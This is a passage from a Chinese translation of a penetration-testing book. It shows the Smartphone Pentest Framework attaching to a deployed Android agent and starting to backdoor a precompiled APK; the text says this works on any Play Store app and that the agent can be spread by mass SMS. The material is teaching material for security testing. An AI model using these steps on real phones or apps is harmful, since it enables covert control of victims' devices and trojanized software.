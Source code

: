 现在将 SPF 附加到已部署的代理。如果向大量号码发送短信广告，谁知道多少用户会安装代理或多快，但代理具有签到功能（参见 示例 20-13），将会响应 SPF 的查询以查看其是否已部署。

示例 20-13. 将 SPF 附加到部署的代理

```
spf> **1**

Select An Option from the Menu:
    1.) Attach Framework to a Deployed Agent
    2.) Generate Agent App
    3.) Copy Agent to Web Server
    4.) Import an Agent Template
    5.) Backdoor Android APK with Agent
    6.) Create APK Signing Key

spf> **1**❶
Attach to a Deployed Agent:

This will set up handlers to control an agent that has already been deployed.

Agent URL Path: **/androidagent1**❷
Agent Control Key: **KEYKEY1**❸
Communication Method(SMS/HTTP): **HTTP**❹

URL Path: /androidagent1
Control Key: KEYKEY1
Communication Method(SMS/HTTP): **HTTP**
Is this correct?(y/N): **y**
```

在主菜单中选择选项 **`1`**，然后选择 `1.) 将框架附加到已部署的代理` ❶。系统会询问路径 ❷、密钥 ❸ 和通信方法 ❹。输入创建代理时使用的值。

SPF 将会等待代理响应一分钟，看起来好像挂起了。返回菜单后，你应该已连接到代理。现在从主菜单选择 `2.) 发送命令给代理`。你将看到数据库中代理的列表；你应该能在列表中看到刚刚附加到 SPF 的代理，如图所示。

```
spf> **2**
Available Agents:
15555215556
```

#### 给 APK 加后门

在使用部署的 SPF 代理之前，让我们看看另一种更复杂的创建代理的方法。因为你可能并不总是拥有你想要给其加后门的应用程序的源代码，SPF 可以与预编译的 APK 文件一起工作。包括 Google Play 商店中的任何 APK 都在其范围之内。

要给 APK 加上 SPF 代理后门，在主菜单中选择选项 **`1`**，然后选择 `5.) 使用代理给 Android APK 加上后门`，如 示例 20-14 所示。

示例 20-14. 给 APK 加后门

```
spf> **1**

Select An Option from the Menu:
    1.) Attach Framework to a Deployed Agent
    2.) Generate Agent App
    3.) Copy Agent to Web Server
    4.) Import an Agent Template
    5.) Backdoor Android APK with Agent
    6.) Create APK Signing Key
spf> **5**
APKTool not found! Is it installed? Check your config file
Install Android APKTool(y/N)?
spf> **y**

--2015-12-04 12:28:21--  https://android-apktool.googlecode.com/files/apktool-install-linux-r05-ibot.tar.bz2
--*snip*--
```